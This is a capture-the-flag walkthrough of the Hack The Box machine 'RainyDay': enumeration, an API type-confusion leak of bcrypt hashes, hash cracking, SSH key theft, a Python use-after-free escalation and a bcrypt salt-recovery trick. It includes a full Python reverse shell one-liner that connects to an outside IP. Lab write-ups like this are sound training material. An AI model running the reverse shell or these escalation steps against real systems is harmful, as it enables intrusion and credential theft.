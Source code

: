 IP: 10.10.11.184
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/rainyday 10.10.11.184

Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-19 18:23 AEDT
Nmap scan report for 10.10.11.184
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://rainycloud.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hostname `rainycloud.htb`

## Port 80
Error page is for flask which means the backend will be python.

User Jack, also a login page.

## Gobuster
```bash
gobuster dir -u http:/raincloud.htb/ -w /opt/
```

There is a api page.
```
# API v0.1
Welcome to the RainyCloud dev API. This is UNFINISHED and should not be used without permission.
Endpoint
Description
/api/
This page
/api/list
Lists containers
/api/healthcheck
Checks the health of the website (path, type and pattern parameters only available internally)
/api/user/<id>
Gets information about the given user. Can only view current user information
```

Checking the id functionality. It says not allowed, but you can do type confusion due to how python works. `1.0` will be a string but will be converted to `1` due to python's `int()` method.

```
{"id":1,"password":"$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O","username":"jack"}
{"id":2,"password":"$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W","username":"root"}
{"id":3,"password":"$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG","username":"gary"}
```

Passwords are bcrypt. Cracking with hashcat and using rockyou.txt

```
gary:$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG:rubberducky
```

# Website
Can create a container and run shell commands. Python reverse shell as there is no bash.

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

# Foothold on container
`ps` shows a weird proc running which has `$HOME` set to `/home/jack` even tho jack is not a user on the container.

Running `ls -la` shows that `cwd` is mounted to `/home/jack` this also contains a ssh key :)

# Foothold on the box
user.txt
```
d43ee3f6126264c20013d9a07434d9d0
```

sudo -l can run `/usr/bin/safe_python` as jack_adm

# Priv esc to jack_adm
Can't create a shell but can read a file.

Check for ssh key.

```python
print(open("/home/jack_adm/.ssh/id_rsa").read())
```

No file found :(

There is a useafterfree exploit on the python binary that we can try. [link](https://github.com/kn32/python-buffered-reader-exploit/blob/master/exploit.py)

This works!

Create a ssh key, and login as jack_adm

# Priv esc to root
`sudo -l` again and can run `hash_password.py`

Running the file and trying to crack the hash generated didnt work. Which means its added some sort of salt.

Bcrypt has a password length of 72 anymore and it will start to break. The app wont let us go past 30. :(

UNICODE EMOJIS BYPASS (i hate this more than you do so dont worry)
💣 (get it cause bufferoverflow hehe (ippsec made this joke not me :) )) 

```
#19 bombs
$2b$05$tpsy7oF9kkxgPrM8QzNDyOGPPFmEOnAygoOUmQqpEdjszQpG3RkZ
#18 bombs
$2b$05$WOI.zEfF9tTrZOzqMQfiJe0wJlVLxL0jOxIoGgR4VI3CTr2CLAUr.
```

hashcat time.

This shows that the size is 18 bombs.

So now we can crack this one character at a time :skull:

After that is done its shows that the salt is `H34vyR41n`

So we can now try to crack the root hash from before while appened the salt to each entry in rockyou.txt

hashcat rule:
```
$H$3$4$v$y$R$4$1$n
```

Yay it works!

```
246813579H34vyR41n
```

root.txt
```
afebd30aaa6cfbe679cc9936e78c974d
```